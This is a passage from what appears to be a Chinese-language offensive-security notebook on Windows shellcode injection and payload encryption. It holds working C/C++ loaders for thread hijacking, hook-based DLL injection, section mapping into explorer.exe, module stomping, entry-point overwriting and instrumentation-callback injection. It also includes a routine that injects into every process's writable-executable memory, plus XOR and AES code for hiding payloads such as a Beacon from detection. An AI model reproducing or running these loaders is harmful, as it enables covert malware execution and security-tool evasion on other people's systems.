hWnd = FindWindowEx(NULL, hWnd, NULL, NULL);
}
ShowWindow(hWnd, SW_HIDE);
Sleep(10);
//DWORD targetPID = 988;
context.ContextFlags = CONTEXT_FULL;
threadEntry.dwSize = sizeof(THREADENTRY32);
targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
Thread32First(snapshot, &threadEntry);
while (Thread32Next(snapshot, &threadEntry))
{
if (threadEntry.th32OwnerProcessID == targetPID)
{
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
break;
}
}
SuspendThread(threadHijacked);
GetThreadContext(threadHijacked, &context);
context.Rip = (DWORD_PTR)remoteBuffer;
SetThreadContext(threadHijacked, &context);
ResumeThread(threadHijacked);
}

SetWindowHookEx注入
#include "pch.h"
#include <iostream>
#include <Windows.h>
int main()
{
HMODULE library = LoadLibraryA("dllhook.dll");
HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");
HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
Sleep(10*1000);
UnhookWindowsHookEx(hook);
return 0;
}
#include "stdafx.h"
BOOL APIENTRY DllMain( HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
extern "C" __declspec(dllexport) int spotlessExport() {
unsigned char shellcode[] = "\xfc";
void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcode, sizeof shellcode);
((void(*)())exec)();
return 0;
}
NtCreateSection + NtMapViewOfSection注入
实现流程：
使用NtCreateSection创建一个在进程中共享的内存块
使用ZwMapViewOfSection将在内存中的某节映射到指定进程中
在远程进程中创建一个线程，将这段内存视图映射到线程中，内存视图保存了shellcode，以便远程进程执行shellcode
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <stdio.h>
#pragma comment(lib, "ntdll")
typedef struct _LSA_UNICODE_STRING { USHORT Length; USHORT MaximumLength; PWSTR Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES { ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor; PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, * PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL);
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle, HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);
DWORD GetProcessIdByName(const wchar_t* processName) {
DWORD pid = 0;
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (snapshot != INVALID_HANDLE_VALUE) {
PROCESSENTRY32W processEntry;
processEntry.dwSize = sizeof(PROCESSENTRY32W);
if (Process32FirstW(snapshot, &processEntry)) {
do {
if (_wcsicmp(processEntry.szExeFile, processName) == 0) {
pid = processEntry.th32ProcessID;
break;
}
} while (Process32NextW(snapshot, &processEntry));
}
CloseHandle(snapshot);
}
return pid;
}
int main()
{
unsigned char buf[] =
"\xfc";
myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
SIZE_T size = 4096;
LARGE_INTEGER sectionSize = { size };
HANDLE sectionHandle = NULL;
PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;
const wchar_t* processName = L"explorer.exe";
DWORD targetPID = GetProcessIdByName(processName);
// create a memory section
fNtCreateSection(§ionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)§ionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
// create a view of the memory section in the local process
fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
// create a view of the memory section in the target process
HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, targetPID);
fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);
// copy shellcode to the local view, which will get reflected in the target process's mapped view
memcpy(localSectionAddress, buf, sizeof(buf));
HANDLE targetThreadHandle = NULL;
fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
return 0;
}
AddressOfEntryPoint Code Injection without VirtualAllocEx RWX
未测试成功
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")
int main()
{
unsigned char shellcode[] =
"\xfc";
STARTUPINFOA si;
si = {};
PROCESS_INFORMATION pi = {};
PROCESS_BASIC_INFORMATION pbi = {};
DWORD returnLength = 0;
CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
// get target image PEB address and pointer to image base
NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;
// get target process image base address
LPVOID imageBase = 0;
ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
// read target process image headers
BYTE headersBuffer[4096] = {};
ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);
// get AddressOfEntryPoint
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);
// write shellcode to image entry point and execute it
WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
ResumeThread(pi.hThread);
return 0;
}
ModuleStomping
流程：
1.起一个进程，获取句柄
2.分配虚拟内存，将正常dll注入到进程中
3.在dll中起一个新线程，将shellcode注入到新线程中
#include <iostream>
#include <Windows.h>
#include <psapi.h>
int main(int argc, char* argv[])
{
PVOID remoteBuffer;
wchar_t moduleToInject[] = L"C:\\windows\\system32\\amsi.dll";
HMODULE modules[256] = {};
SIZE_T modulesSize = sizeof(modules);
DWORD modulesSizeNeeded = 0;
DWORD moduleNameSize = 0;
SIZE_T modulesCount = 0;
CHAR remoteModuleName[128] = {};
HMODULE remoteModule = NULL;
unsigned char shellcode[] =
"\xfc";
// inject a benign DLL into remote process
//HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
//processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 8444);
// 创建进程的参数
STARTUPINFOA si;
PROCESS_INFORMATION pi;
//// 初始化STARTUPINFOA结构
ZeroMemory(&si, sizeof(STARTUPINFOA));
si.cb = sizeof(STARTUPINFOA);
si.dwFlags = STARTF_USESHOWWINDOW;
si.wShowWindow = SW_HIDE; // 设置窗口不可见
CreateProcessA(NULL, (LPSTR)"C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi); //起一个挂起状态的notepad进程
HANDLE processHandle = pi.hProcess; //获取notepad进程的进程句柄
HANDLE threadHandle = pi.hThread; //获取notepad进程的线程句柄
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof moduleToInject, MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)moduleToInject, sizeof moduleToInject, NULL);
PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
HANDLE dllThread = CreateRemoteThread(processHandle, NULL, 0, threadRoutine, remoteBuffer, 0, NULL);
WaitForSingleObject(dllThread, 1000);
// find base address of the injected benign DLL in remote process
EnumProcessModules(processHandle, modules, modulesSize, &modulesSizeNeeded);
modulesCount = modulesSizeNeeded / sizeof(HMODULE);
for (size_t i = 0; i < modulesCount; i++)
{
remoteModule = modules[i];
GetModuleBaseNameA(processHandle, remoteModule, remoteModuleName, sizeof(remoteModuleName));
if (std::string(remoteModuleName).compare("amsi.dll") == 0)
{
std::cout << remoteModuleName << " at " << modules[i];
break;
}
}
// get DLL's AddressOfEntryPoint
DWORD headerBufferSize = 0x1000;
LPVOID targetProcessHeaderBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
ReadProcessMemory(processHandle, remoteModule, targetProcessHeaderBuffer, headerBufferSize, NULL);
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetProcessHeaderBuffer;
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetProcessHeaderBuffer + dosHeader->e_lfanew);
LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)remoteModule);
std::cout << ", entryPoint at " << dllEntryPoint;
// write shellcode to DLL's AddressofEntryPoint
WriteProcessMemory(processHandle, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
// execute shellcode from inside the benign DLL
CreateRemoteThread(processHandle, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
return 0;
}
Enumerating RWX Protected Memory
枚举当前进程的RWX内存并远程注入，会把每个进程都尝试去注一遍。
像病毒一样。
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
int main()
{
MEMORY_BASIC_INFORMATION mbi = {};
LPVOID offset = 0;
HANDLE process = NULL;
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 processEntry = {};
processEntry.dwSize = sizeof(PROCESSENTRY32);
DWORD bytesWritten = 0;
unsigned char shellcode[] =
"\xff";
Process32First(snapshot, &processEntry);
while (Process32Next(snapshot, &processEntry))
{
process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
if (process)
{
std::wcout << processEntry.szExeFile << "\n";
while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
{
offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
{
std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
}
}
offset = 0;
}
CloseHandle(process);
}
return 0;
}
FunctionStomping
与ModuleStomping类似，但又有不同。
1.获取一个远程进程的句柄
2.在远程线程枚举出用户层Kernel32.dll的函数的基址（这里使用的是CreateFileW）
3.更改内存空间为RWX
4.往函数基址中写入shellcode
5.更改内存空间为RCX
TheardlessInjection
https://github.com/CCob/ThreadlessInject hook远程进程中的指定函数，当进程执行指定函数的时执行代码
Entry Point Injection
https://github.com/Kudaes/EPI
修改目标进程的PEB信息，PEB中存储了dllmain信息，更改dllmain的地址为shellcode。当目标进程启动或结束一个线程时，会重新调用dllmain，此时会执行shellcode
DllNotificationInjection(2023/8)
https://learn.microsoft.com/en-us/windows/win32/devnotes/ldrregisterdllnotification https://github.com/ShorSec/DllNotificationInjection https://shorsec.io/blog/dll-notification-injection/
在远程进程中修改PLDR_DLL_NOTIFICATION_ENTRY成员，并使Cookie指向shellcode的地址。当远程进程加载dll之前会触发一个通知LdrRegisterDllNotification，从而触发shellcode

NtSetInformationProcess
https://github.com/OtterHacker/SetProcessInjection
该方式使用Nirvana调试技术，在远程进程设置了一个hook，在hook设置恶意代码。当系统每次执行syscall后会立即调用hook。
这种方式需要SE_DEBUG_PRIVILEGE权限。
由于需要高权限，这种方式不适合作为初始访问使用。
#include "helpers.h"
#include <TlHelp32.h>
#include "sc.h"
//定义各种
#define DEBUG(x, ...) printf(x, ##__VA_ARGS__)
#define ProcessInstrumentationCallback 40
#define SE_DEBUG_PRIVILEGE 0x100000
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
extern VOID InstrumentationHook(VOID);
//定义SetInformationProcess结构体
typedef struct _PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION
{
ULONG Version;
ULONG Reserved;
PVOID Callback;
} PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION, * PPROCESS_INSTRUMENTATION_CALLBACK_INFORMATION;
typedef NTSTATUS(NTAPI* pRtlAdjustPrivilege)(
DWORD Privilege,
BOOLEAN Enable,
BOOLEAN CurrentThread,
DWORD* OldStatus
);
typedef NTSTATUS(NTAPI* pNtSetInformationProcess)(
_In_ HANDLE hProcess,
_In_ PROCESS_INFORMATION_CLASS ProcessInformationClass,
_In_reads_bytes_(ProcessInformationSize) LPVOID ProcessInformation,
_In_ DWORD ProcessInformationSize
);
//根据进程名获取进程句柄，这里是要注入的进程
HANDLE getProcHandlebyName(LPSTR procName, DWORD* PID) {
PROCESSENTRY32 entry;
entry.dwSize = sizeof(PROCESSENTRY32);
NTSTATUS status = NULL;
HANDLE hProc = 0;
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (!snapshot) {
DEBUG("[x] Cannot retrieve the processes snapshot\n");
return NULL;
}
if (Process32First(snapshot, &entry)) {
do {
if (strcmp((entry.szExeFile), procName) == 0) {
*PID = entry.th32ProcessID;
DEBUG("[+] Injecting into : %d\n", *PID);
hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, *PID);
if (!hProc) { continue; }
return hProc;
}
} while (Process32Next(snapshot, &entry));
}
return NULL;
}
int main(void) {
ULONG imageSize = 0;
HMODULE hNtdll = GetModuleHandle("ntdll.dll", &imageSize); //直接使用GetModuleHandle()获取ntdll句柄，可以进一步优化
if (!hNtdll) {
DEBUG("[x] Cannot load NTDLL.DLL\n");
return;
}
DWORD PID = 0;
HANDLE hProc = getProcHandlebyName("notepad.exe", &PID); //根据进程名获取进程句柄
if (!hProc) {
DEBUG("[x] Cannot open the process\n");
return;
}
//一系列操作，找到NtSetInformationProcess和RtlAdjustPrivilege地址
DEBUG("[+] Starting hook deployment !\n");
PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION InstrumentationCallbackInfo;
pNtSetInformationProcess NtSetInformationProcess = GetProcAddress(hNtdll, "NtSetInformationProcess");
pRtlAdjustPrivilege RtlAdjustPrivilege = GetProcAddress(hNtdll, "RtlAdjustPrivilege");
//这个函数是通过sc.h来获取shellcode
buildsc();
size_t szOutput = 0;
DWORD size = 0;
unsigned char* file_enc = NULL;
BYTE* beaconContent = NULL;
size_t beaconSize = NULL;
file_enc = base64_decode(sc, sc_length, &szOutput); //先对shellcode base64解码
for (int i = 0; i < sc_length; i++) {
printf("0x%x,", file_enc[i]);
}
printf("\n");
if (szOutput == 0) {
DEBUG("[x] Base64 decode failed \n");
return -1;
}
//使用key来AES解密
beaconSize = szOutput - 16;
beaconContent = (unsigned char*)calloc(beaconSize, sizeof(BYTE));
BOOL decryptStatus = aes_decrypt(key, (sizeof(key) / sizeof(key[0])) - 1, file_enc, beaconSize, beaconContent);
if (!decryptStatus || beaconContent == NULL) {
DEBUG("[x] AES decryption failed\n");
return -1;
}
for (int i = 0; i < beaconSize; i++) {
printf("0x%x,", beaconContent[i]);
}
printf("\n");
//在目标进程分配内存空间
LPVOID beaconAddress = VirtualAllocEx(hProc, NULL, beaconSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!beaconAddress) {
DEBUG("[x] Cannot allocate beacon space : %d\n", GetLastError());
return;
}
DEBUG("[+] Beacon memory at : %p\n", beaconAddress);
//自定义汇编，使hook不要无限循环
SIZE_T shellcodeSize = 49;
BYTE shellcodeTemplate[49] = {
0x55,
0x48, 0x89, 0xe5,
0x48, 0xc7, 0x05, 0xf1, 0xff, 0xff, 0xff, 0x41, 0xff, 0xe2, 0x00,
0x50,
0x53,
0x51,
0x41, 0x51,
0x41, 0x52,
0x41, 0x53,
0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
0xff, 0xd0,
0x41, 0x5b,
0x41, 0x5a,
0x41, 0x59,
0x59,
0x5b,
0x58,
0x5d,
0x41, 0xff, 0xe2
};
//push rbp
//mov rbp, rsp
//; This will modify the instruction push RBP into JMPR10
//mov qword ptr[rip – 15] 0xE2FF41
//push rax
//push rbx
//push rcx
//push r9
//push rl0
//push rll
//movabs rax, ${ CSAddr }
//call rax
//pop r11
//pop r10
//pop r9
//pop rcx
//pop rbx
//pop rax
//pop rbp
//jmp r10
BYTE shellcodeContent[49];
CopyMemory(shellcodeContent, shellcodeTemplate, shellcodeSize * sizeof(BYTE));
CopyMemory(shellcodeContent + 26, &beaconAddress, sizeof(DWORD64));
//为汇编码分配内存空间
LPVOID shellcodeAddress = VirtualAllocEx(hProc, NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!shellcodeAddress) {
DEBUG("[x] Cannot allocate shellcode space : %d\n", GetLastError());
return;
}
DEBUG("[+] Shellcode memory at : %p\n", shellcodeAddress);
//shellcode写入内存
BOOL status = WriteProcessMemory(hProc, beaconAddress, beaconContent, beaconSize, NULL);
if (!status) {
DEBUG("[x] Cannot write beacon content at %p : %d\n", beaconAddress, GetLastError());
return;
}
DEBUG("[+] Beacon content written at %p\n", beaconAddress);
//汇编码写入内存
status = WriteProcessMemory(hProc, shellcodeAddress, shellcodeContent, shellcodeSize, NULL);
if (!status) {
DEBUG("[x] Cannot write shellcode content at %p : %d\n", shellcodeAddress, GetLastError());
return;
}
DEBUG("[+] Shellcode content written at %p\n", shellcodeAddress);
//修改内存属性
DWORD oldProtect = 0;
status = VirtualProtectEx(hProc, beaconAddress, beaconSize, PAGE_EXECUTE_READ, &oldProtect);
if (!status) {
DEBUG("[x] Failed to reprotect beacon memory at %p : %d\n", beaconAddress, GetLastError());
}
DEBUG("[+] Beacon memory reprotected !\n");
status = VirtualProtectEx(hProc, shellcodeAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &oldProtect);
if (!status) {
DEBUG("[x] Failed to reprotect beacon memory at %p : %d\n", shellcodeAddress, GetLastError());
}
DEBUG("[+] Beacon shellcode reprotected !\n");
//设置hook
InstrumentationCallbackInfo.Version = 0;
InstrumentationCallbackInfo.Reserved = 0;
InstrumentationCallbackInfo.Callback = shellcodeAddress;
NTSTATUS ntStatus = NtSetInformationProcess(
hProc,
ProcessInstrumentationCallback,
&InstrumentationCallbackInfo,
sizeof(InstrumentationCallbackInfo)
);
if (!NT_SUCCESS(ntStatus)) {
DEBUG("[x] Failed to deploy hook : %p \n", ntStatus);
return;
}
DEBUG("[+] Hook deployed successfully !\n");
BOOL hookCalled;
do {
DEBUG("[-] Waiting 5 seconds for the hook to be called...\n");
Sleep(5000);
BYTE content[1];
SIZE_T bytesRead;
status = ReadProcessMemory(hProc, shellcodeAddress, &content, 1 * sizeof(BYTE), &bytesRead);
if (!status) {
DEBUG("\t[x] Cannot read process memory : %d\n", GetLastError());
return;
}
DEBUG("\t[-] Value read: %2x\n", content[0]);
hookCalled = content == shellcodeContent[0];
} while (hookCalled);
DEBUG("[+] Your payload must be executed now !\n");
}
Shellcode加解密
安装openssl库
https://slproweb.com/products/Win32OpenSSL.html
亦或
加密
#define KEY 0x01 //进行亦或的字符
unsigned char buf[] = "\xff";
int main(int argc, char* argv[])
{
unsigned char c[sizeof(buf)]; //获取shellcode长度
for (int i = 0; i < sizeof(buf) - 1; i++)
{
c[i] = buf[i] ^ KEY;//进行解密
printf("\\x%x", c[i]);
}
printf("\n");
return 0;
}
解密
#define KEY 0x01 //亦或字符
unsigned char buff[] = "\xfd"; //加密后的数据
unsigned char rawData[sizeof(buff)]; //获取shellcode长度
for (int i = 0; i < sizeof(buff) - 1; i++)
{
rawData[i] = buff[i] ^ KEY;//进行解密
}
自定义RC4
参考《0APCLdr-单文件》项目，Builder为加密，decrypt为解密，解密从资源表中加载
AES
依赖三方库，调用时需要把静态库放程序下面。
#include <cstdio>
#include <openssl/aes.h>
#include <corecrt_malloc.h>
#pragma comment(lib, "libcrypto.lib")
#define KEY "abcdefghijklmnop" // AES 密钥，长度为 128 位 (16 字节)
void aesEncrypt(const unsigned char* key, const unsigned char* input, int inputLength, unsigned char* output)
{
AES_KEY aesKey;
AES_set_encrypt_key(key, 128, &aesKey);
AES_encrypt(input, output, &aesKey);
}
int main()
{
const char* inputFileName = "payload.bin"; // 输入二进制文件名
const char* outputFileName = "output.bin"; // 输出二进制文件名
FILE* inputFile;
if (fopen_s(&inputFile, inputFileName, "rb") != 0)
{
printf("Failed to open input file.\n");
return 1;
}
// 获取输入文件大小
fseek(inputFile, 0, SEEK_END);
long inputFileSize = ftell(inputFile);
fseek(inputFile, 0, SEEK_SET);
// 分配内存用于存储输入文件数据
unsigned char* buf = (unsigned char*)malloc(inputFileSize);
if (!buf)
{
printf("Failed to allocate memory.\n");
fclose(inputFile);
return 1;
}
// 读取输入文件数据到 buf 数组
fread(buf, 1, inputFileSize, inputFile);
fclose(inputFile); // 关闭输入文件
// 对数据进行 AES 加密
unsigned char* encrypted = (unsigned char*)malloc(inputFileSize);
aesEncrypt((const unsigned char*)KEY, buf, inputFileSize, encrypted);
// 创建并打开输出文件
FILE* outputFile;
if (fopen_s(&outputFile, outputFileName, "wb") != 0)
{
printf("Failed to create output file.\n");
free(buf);
free(encrypted);
return 1;
}
// 将加密后的数据写入输出文件
fwrite(encrypted, 1, inputFileSize, outputFile);
fclose(outputFile); // 关闭输出文件
printf("Encryption completed.\n");
free(buf);
free(encrypted);
return 0;
}
自定义AES
3个头文件，2个c文件。使用python脚本加密
详见《SetProcessInjection》项目
aes.h 加密算法头文件
#pragma once
#ifndef _AES_H_
#define _AES_H_
#include <stdint.h>
#include <stddef.h>
// #define the macros below to 1/0 to enable/disable the mode of operation.
//
// CBC enables AES encryption in CBC-mode of operation.
// CTR enables encryption in counter-mode.
// ECB enables the basic ECB 16-byte block algorithm. All can be enabled simultaneously.
// The #ifndef-guard allows it to be configured before #include'ing or at compile time.
#ifndef CBC
#define CBC 1
#endif
#ifndef ECB
#define ECB 1
#endif
#ifndef CTR
#define CTR 1
#endif
//define AES128 1
//#define AES192 1
#define AES256 1
#define AES_BLOCKLEN 16 // Block length in bytes - AES is 128b block only
#if defined(AES256) && (AES256 == 1)
#define AES_KEYLEN 32
#define AES_keyExpSize 240
#elif defined(AES192) && (AES192 == 1)
#define AES_KEYLEN 24
#define AES_keyExpSize 208
#else
#define AES_KEYLEN 16 // Key length in bytes
#define AES_keyExpSize 176
#endif
struct AES_ctx
{
uint8_t RoundKey[AES_keyExpSize];
#if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))
uint8_t Iv[AES_BLOCKLEN];
#endif
};
void AES_init_ctx(struct AES_ctx* ctx, const uint8_t* key);
#if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))
void AES_init_ctx_iv(struct AES_ctx* ctx, const uint8_t* key, const uint8_t* iv);
void AES_ctx_set_iv(struct AES_ctx* ctx, const uint8_t* iv);
#endif
#if defined(ECB) && (ECB == 1)
// buffer size is exactly AES_BLOCKLEN bytes;
// you need only AES_init_ctx as IV is not used in ECB
// NB: ECB is considered insecure for most uses
void AES_ECB_encrypt(const struct AES_ctx* ctx, uint8_t* buf);
void AES_ECB_decrypt(const struct AES_ctx* ctx, uint8_t* buf);
#endif // #if defined(ECB) && (ECB == !)
#if defined(CBC) && (CBC == 1)
// buffer size MUST be mutile of AES_BLOCKLEN;
// Suggest https://en.wikipedia.org/wiki/Padding_(cryptography)#PKCS7 for padding scheme
// NOTES: you need to set IV in ctx via AES_init_ctx_iv() or AES_ctx_set_iv()
// no IV should ever be reused with the same key
void AES_CBC_encrypt_buffer(struct AES_ctx* ctx, uint8_t* buf, size_t length);
void AES_CBC_decrypt_buffer(struct AES_ctx* ctx, uint8_t* buf, size_t length);
#endif // #if defined(CBC) && (CBC == 1)
#if defined(CTR) && (CTR == 1)
// Same function for encrypting as for decrypting.
// IV is incremented for every block, and used after encryption as XOR-compliment for output
// Suggesting https://en.wikipedia.org/wiki/Padding_(cryptography)#PKCS7 for padding scheme
// NOTES: you need to set IV in ctx with AES_init_ctx_iv() or AES_ctx_set_iv()
// no IV should ever be reused with the same key
void AES_CTR_xcrypt_buffer(struct AES_ctx* ctx, uint8_t* buf, size_t length);
#endif // #if defined(CTR) && (CTR == 1)
#endif // _AES_H_
helpers.h 加密算法头文件
#pragma once
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tchar.h>
#include "aes.h"
#define DEBUG(x, ...) printf(x, ##__VA_ARGS__)
